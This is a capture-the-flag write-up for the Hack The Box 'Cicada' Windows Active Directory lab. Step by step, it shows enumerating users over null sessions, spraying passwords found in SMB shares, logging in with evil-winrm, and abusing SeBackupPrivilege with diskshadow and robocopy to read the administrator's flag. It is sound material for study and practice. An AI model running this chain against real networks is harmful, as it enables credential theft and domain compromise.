 ```yaml
---
date: 2025-02-15
categories: [Windows, Easy, AD]
---
```


![Cicada](https://labs.hackthebox.com/storage/avatars/79616a32a057e5e672dadb51bb96dd04.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [theblxckcicada](https://app.hackthebox.com/users/796798)        | [Hack The Box](https://www.hackthebox.com/)     | Easy           | Windows   |

---









- The first step is to perform a scan of the open ports and then list the versions and technologies used on the open ports.

  ```python
  nmap -p- --open -vvv --min-rate 5000 -Pn -sS 10.10.11.35 -oG scan
  /opt/extractports scan
  nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5985,51656 -sCV 10.10.11.35 -oN ports
  ```
    
  ![image](https://github.com/user-attachments/assets/8e4f563f-7618-4130-badc-621df9b3e08e)

    
- I found the domain `cicada.htb` and add it to the file in the `/etc/hosts` file
 
- By using a null session I manage to enumerate the users of the system. Valid if they really exist with kerbrute.

  ```python
  impacket-lookupsid cicada@10.10.10.35 -no-pass
  ```

  ![image](https://github.com/user-attachments/assets/8523b9b0-9014-463c-ba28-c2aeeed37d36)

    
- Validate the existence of users in the AD witch [kerbrute](https://github.com/ropnop/kerbrute)
    
    ```python
    ./kerbrute_linux_386 userenum --dc 10.10.11.35 -d cicada.htb -t 100 /home/rufo/users
    ```
    
    ![image](https://github.com/user-attachments/assets/7ebcc3a2-4cba-4d66-b251-687653ab8ace)
    
- I try with a brute force attack to get the passwords of the users but I get nothing.
    
    ```python
    crackmapexec smb 10.10.11.35 -u emily.oscars -p /usr/share/wordlist/rockyou.txt -k
    ./kerbrute_linux_386 bruteuser --dc 10.10.11.35 -d cicada.htb -t 100 -v /usr/share/wordlist/rockyou.txt Guest
    ```
    
    ![image](https://github.com/user-attachments/assets/6eb01c01-98a7-488d-b7f9-1f26fa38183a)
    
- Having a list of valid users we can make an `ASREPRoast Attack` (without having passwords)
    
    - If the user does not require kerberos preauthentication (if Dont require preauth is set for the user) it will give us a TGT, we can try to break that hash and get the password in clear text.
    - But I see that no user has this option set.
    
    ```python
    impacket-GetNPUsers -no-pass -userfile /home/rufo/users cicada.htb/
    ```
    
    ![image](https://github.com/user-attachments/assets/4c0cfee3-a7df-4984-936e-3caea791e9dd)
    
- As I see port 53 open, I try to `enumerate server names`, `mail server names` and even perform a `zone transfer attack` but I get nothing relevant
    
    ```python
    dig @10.10.11.35 cicada.htb ns
    dig @10.10.11.35 cicada.htb mx
    dig @10.10.11.35 cicada.htb axfr
    ```
    
    ![image](https://github.com/user-attachments/assets/4128dec9-1770-4352-a1fd-f854b8972d33)
    
- Making use of a null session I list the resources shared by `smb` and I find a folder that catches my attention, `HR`
    
    ```python
    enum4linux -a -u "guest" -p '' 10.10.11.35
    smbmap -H 10.10.11.35 -u 'guest' -r HR
    ```
    
	![image](https://github.com/user-attachments/assets/2b85c80f-1748-4c5d-b006-31a5ef8ddafe)

	![image](https://github.com/user-attachments/assets/e83f8303-a179-4d81-ae78-aa5456e2edf1)

- I find a file containing a possible password. Valid if it belongs to one of the users previously found.
    
    ```python
    smbmap -H 10.10.11.35 -u 'guest' --download 'HR/Notice from HR.txt'
    ```
    
    ![image](https://github.com/user-attachments/assets/f4c802ac-f296-4f93-9013-b18f8570fb87)
    
    ```python
    crackmapexec smb 10.10.11.35 -u ./users2 -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
    ```
    
    ![image](https://github.com/user-attachments/assets/5fd89c5c-02a7-48d1-bce5-e5d30818f96e)
    
- Following the found file I try to log in as the user michael.wrightson and the default password to try to change his password but I don't have permissions.
    
    ```python
    smbpasswd -r cicada.htb -U michael.wrightson
    net rpc password "michael.wrightson" -U "cicada.htb"/"michael.wrightson"%'Cicada$M6Corpb*@Lp#nZp!8' -S 10.10.11.35
    ```
    
    ![image](https://github.com/user-attachments/assets/f5ab2d72-6493-4625-92fc-104e606f046e)
    
    ![image](https://github.com/user-attachments/assets/790461f4-96d2-4fc0-b601-84c9d5684a0e)
    
- Having the credentials of the user `michael.wrightson`, I list resources shared by `smb` for this user
    
    ```python
    crackmapexec smb 10.10.10.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --shares
    ```
    
    ![image](https://github.com/user-attachments/assets/47b0ba4a-6098-4d0c-8623-a0743a4d88bc)
    
- After entering the different folders and files I get nothing relevant. I use `enum4linux` again with the credentials of the found user and find a possible password in the description of a user and see that the user `emily.oscars` belongs to the `Remote Management Users` group.
    
    ```python
    enum4linux -a -u "michael.wrightson" -p 'Cicada$M6Corpb*@Lp#nZp!8' 10.10.11.35
    ```
    
    ![image](https://github.com/user-attachments/assets/26b10341-aba3-480c-9aad-1cb0c1197edc)
    
    ![image](https://github.com/user-attachments/assets/ba69adba-cd17-4424-ad28-7dc19bd5eab0)
    
- I list shared resources, find a file and download it to see its content.
    
    ```python
    crackmapexec smb 10.10.11.35 -u david.orelious -p 'Cicada$M6Corpb*@Lp#nZp!8' --shares
    smbclient -U 'david.orelious' //10.10.11.35/DEV
    ```
    
    ![image](https://github.com/user-attachments/assets/0f63b8ee-7781-4b6d-b164-b67467944f15)

    ![image](https://github.com/user-attachments/assets/82453d0f-7108-421c-aca4-10e619e31d5c)
    
- I find the password of the user `emily.oscars`, I validate it with `crackmapexec` and it is correct. As we have seen before that this user belongs to the `Remote Management Users` group, we can connect with `evil-winrm` and we can read the first flag.
    
    ```python
    evil-wirm -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt' -i 10.10.11.35
    ```
    
    ![image](https://github.com/user-attachments/assets/06b2df90-5558-4b08-9f97-5064bb906962)
    
    ![image](https://github.com/user-attachments/assets/b84c146b-2240-41c4-8153-ff92b10d7259)
    
- Using `neo4j`, `bloodhound` and `bloodhound-python` I can extract information from the system to see a way to escalate privileges.
    
- While I list the privileges I have and I see that I have the `SeBackupPrivilege` permission.
    
    ```python
    whoami /priv
    ```
    
    ![image](https://github.com/user-attachments/assets/1f665db4-e5f8-4bca-a5c1-753faffa9a52)
    
    - When searching for information about this [privilege](https://d4t4s3c.medium.com/sebackupprivilege-windows-privilege-escalation-c7a05e3f1568) I see that I can access all files on the system regardless of permissions.
        
    - Thanks to this we could read both the system and the sam and try to get the hash of the users but as the connection against the computer was restarted every few minutes, I did not have time to download the files to my local
        
    - Because of this, I decide to read directly the root.txt file
    
- I create a file test.txt with the following content and using [diskshadow](https://pentestlab.blog/tag/diskshadow/) I run the script that creates a new volume 'v' with the content of 'c'.
    
    ```python
    set context persistent nowriters
    add volume c: alias rufo
    create
    expose %rufo% v:
    ```
    
    ```python
    diskshadow.exe /s c:\\Temp\\test.txt
    ```
    
    ![image](https://github.com/user-attachments/assets/284ae142-52ff-4713-b64a-1512fddc7c8f)
    
- Now using robocopy, since copy does not let me, I make a copy of any file called root.txt that is in the path v:\UsersAdministrator\Desktop and create it in the current directory, for that I indicate the '.'. Thanks to this I already have the content of the root.txt file
    
    ```python
    cd 	c:\\Temp
    robocopy /b v:\\Users\\Administrator\\Desktop\\ . root.txt
    ```
    
    ![image](https://github.com/user-attachments/assets/1c7a9cf8-9f93-44ef-b6bd-9204fe836d0a)
